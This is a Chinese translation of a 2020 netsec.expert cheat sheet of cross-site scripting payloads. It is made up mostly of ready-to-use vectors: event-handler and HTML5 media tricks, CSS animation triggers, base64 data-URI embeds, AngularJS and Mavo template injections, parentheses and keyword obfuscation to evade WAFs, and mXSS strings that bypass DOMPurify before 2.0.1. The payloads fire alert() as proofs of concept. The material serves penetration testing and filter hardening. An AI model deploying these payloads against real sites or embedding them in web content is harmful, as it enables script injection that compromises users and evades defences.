 

2020年仍然有效的一些XSS Payload

阅读量    766726 | 评论 1   稿费 50



发布时间：2020-02-18 17:00:08

译文声明

本文是翻译文章，文章原作者netsec，文章来源：netsec.expert

原文地址：https://netsec.expert/2020/02/01/xss-in-2020.html

---

译文仅供参考，具体内容表达以及含义原文为准

![](images/5702106FCB1D44A3B286B088169FAE96bb46682022c1.png)

 

其实，现在网络上很多的XSS Cheat Sheet都已经过期了。很多的XSS Cheat Sheet都是直接从其他地方粘贴过来的，而且有的测试用例早在十年前就已经没用了，但是也没人去整理和清理。除此之外，在大多数情况下我们所遇到的情况都是这些XSS Cheat Sheet测试用例无法解决的，有可能是因为Waf，也有可能是因为XSS过滤器。当然了，如果只是一个简单的XSS漏洞，那你需要的仅仅只是一个有效的XSS攻击向量，而不是一堆“没用”的东西。

因此，在这篇文章中我想给大家提供一个“与众不同”的Cheat Sheet，在这份Cheat Sheet中我将给大家提供一份XSS技术和测试用例清单，并给出一些演示样例。希望在各位遇到难解决的WAF或XSS过滤器时，这份Cheat Sheet能够给大家提供一些帮助或灵感。虽然这份Cheat Sheet不能说100%完整，但是我相信这里提供的技术是2020年绝大部分研究人员仍在使用的技术。

 

标签-属性分隔符

有些过滤器会“天真地认为”只有某些特定字符可以分隔标签及其属性，下面给出的是在Firefox和Chrome中能够使用的有效分隔符的完整列表：

![](images/3AC468AD2BEB420A90C2D60E16855BD7c8b3a305b9ce.png)

使用方式

一般来说，你的Payload构造如下：

<svg onload=alert(1)>

你可以尝试使用上述字符来替换‘svg’和‘onload’中间的空格，这样就可以保证HTML仍然有效并且Payload能够正确执行（DEMO：有效的HTML）：

<svg/onload=alert(1)><svg>

<svg
onload=alert(1)><svg> # newline char

<svg onload=alert(1)><svg> # tab char

<svg
onload=alert(1)><svg> # new page char (0xc)

 

基于JavaScript事件的XSS

标准HTML事件

点击事件：

![](images/763F19228EBE4ADBB48717B390598DA0be6863a2ab2d.png)

使用样例：



<svg onload=alert()>

<body onpageshow=alert(1)>

<div style="width:1000px;height:1000px" onmouseover=alert()></div>

<marquee width=10 loop=2 behavior="alternate" onbounce=alert()> (firefox only)

<marquee onstart=alert(1)> (firefox only)

<marquee loop=1 width=0 onfinish=alert(1)> (firefox only)

<input autofocus="" onfocus=alert(1)></input>

<details open ontoggle="alert()"> (chrome & opera only)

HTML5事件

点击事件：

![](images/BEE8EBB850DD41B7BBFF4EE1E2440D1A5017325a2ed1.png)

使用样例：

<video autoplay onloadstart="alert()" src=x></video>

<video autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadeddata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadedmetadata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadstart="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadstart="alert()"><source src=x></video>

<video controls oncanplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<audio autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>

<audio autoplay controls onplaying="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>

 

基于CSS的事件

不幸的是，基于CSS来实现XSS现在已经越来越难了，我尝试过的所有向量目前都只能在非常旧的浏览器上工作。因此，下面介绍的是基于CSS来触发XSS的情况。

下面的例子使用的是style标签来为动画的开始和结束设置关键帧：

<style>@keyframes x {}</style>

<p style="animation: x;" onanimationstart="alert()">XSS</p>

<p style="animation: x;" onanimationend="alert()">XSS</p>

 

古怪的XSS向量

下面给出的是一些比较“奇葩”的XSS测试向量，这些测试向量很少见：

<svg><animate onbegin=alert() attributeName=x></svg>

<object data="data:text/html,<script>alert(5)</script>">

<iframe srcdoc="<svg onload=alert(4);>">

<object data=javascript:alert(3)>

<iframe src=javascript:alert(2)>

<embed src=javascript:alert(1)>

<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>

<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>

XSS多覆盖样例

下面我给出了几份XSS的多段代码，因为有的时候我们只需要输入特定的字符，或者只需要一个基于DOM或基于非DOM的注入场景。

![](images/7B15543B57CF43EABF3A71EA94CCDD8692acebe1f4f2.png)

 

框架

为了攻击JS框架，我们还需要对相关的模板语言进行研究和分析。

AngularJS

{{constructor.constructor('alert(1)')()}}

这个Payload适用于大多数场景。

Mavo

[self.alert(1)]

 

XSS过滤器绕过

圆括号过滤

利用HTML解析器和JS语句：

<svg onload=alert`1`></svg>
<svg onload=alert&lpar;1&rpar;></svg>
<svg onload=alert&#x28;1&#x29></svg>
<svg onload=alert&#40;1&#41></svg>

限制字符集

下面这三个站点可以将有效的JS代码转换为所谓的“乱码”来绕过绝大多数的过滤器：

1、JSFuck

2、JSFsck（不带圆括号的JSFuck）

3、jjencode

关键词过滤

避免使用的关键词：

(alert)(1)

(1,2,3,4,5,6,7,8,alert)(1)

a=alert,a(1)

[1].find(alert)

top["al”+”ert"](1)

top[/al/.source+/ert/.source](1)

alu0065rt(1)

top['al145rt'](1)

top['alx65rt'](1)

top[8680439..toString(30)](1) // Generated using parseInt("alert",30). Other bases also work

mXSS和DOM攻击

对于XSS过滤器来说，它们基本上不可能正确地预测浏览器如何跟HTML以及交互库进行数据处理的方式。因此，有的时候我们就可以将XSS Payload作为无效的HTML插入到目标页面中，然后浏览器将有可能把它作为有效Payload执行，这样就可以绕过过滤器了。

下面给出的是一个能够绕过最常见过滤器（DOMPurify <2.0.1）的mXSS Payload：

<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">

<svg><p><style><a id="</style><img src=1 onerror=alert(1)>"></p></svg>

双重编码

有的时候，应用程序会在字符串再次解码之前，对其执行XSS过滤，这样就会给我们留下实现绕过的可乘之机。

![](images/135EF9553425425D820FBFEE574D5244de01a2a7b889.png)

 

参考资料

1、https://www.vulnerability-lab.com/resources/documents/531.txt

2、https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

3、https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations

4、https://cure53.de/fp170.pdf

5、https://www.youtube.com/watch?v=5W-zGBKvLxk

6、https://xss.pwnfunction.com/